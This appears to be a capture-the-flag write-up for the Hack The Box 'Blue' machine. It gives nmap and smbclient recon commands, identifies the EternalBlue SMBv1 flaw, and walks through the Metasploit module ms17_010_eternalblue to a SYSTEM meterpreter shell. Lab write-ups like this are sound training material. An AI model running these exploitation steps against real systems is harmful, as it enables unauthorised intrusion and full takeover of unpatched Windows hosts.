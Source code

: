 # Box: Blue
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.129.110.225 -T4  -v -p-```

Well from the scan we hav3 3 main ports opened. Our enumeration today will be focused on the port runnint the netbios service.



# Enumeration

Lets start by checking the number of shares available on the smb server

command:```smbclient -L 10.129.110.225```

This is going to prompt you for a password, just hit the ```Enter key``` since we don't have any password

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Blue]
└─$ smbclient -L 10.129.110.225
Password for [WORKGROUP\bl4ck4non]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Share           Disk      
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.110.225 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
We have 5 smb shares available on the server

I couldn't find anything after connecting to the shares🥲.

We can check out nmap scripting engine to scan the smb port for potential vulnerabilities

command:```nmap -p 445 --script smb-vuln*.nse 10.129.110.225```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bad2e7ad-4287-4517-a8ce-7adcfcd7c9d5)

Checking out the CVE we find this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6923c708-17bc-472f-8a64-50392c648e03)

So it is a vulnerability that exists in ```SMBv1```. The vulnerability is  also known as ```EternalBlue```. Well, lets exploit😎




# Exploitation

We can use the metasploit module for this

command:```msfconsole```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/04cc7b9c-0896-4f6c-a88e-6bcfff2f73bf)

Good

command:```search eternalblue```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4411b9d9-3489-466d-bbec-83b29150ce14)

Next,

command:```use exploit/windows/smb/ms17_010_eternalblue```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0aa62370-9387-4a0c-a5fe-5a7aa7cff8a6)

We'll set the RHOSTS and LHOST. RHSOT is the target's IP, while LHOST is our tun0 IP

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/79ef8f25-2b66-4677-a5b3-77cf238d55ac)

Now we can use the ```exploit``` command to exploit

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ff992a9b-e7f7-45dc-abad-36a2fd9577cc)

We got a meterpreter session hehehe

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bb99258e-33d4-449c-b637-585c72f91b16)

We won't need to escalate privileges because we spawned a shell as the highest privileged user which is ```NT Authority\System```

Lets locate the flag

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/80dabba0-f61c-4d55-85b5-747e07af86cf)

Well that's all
















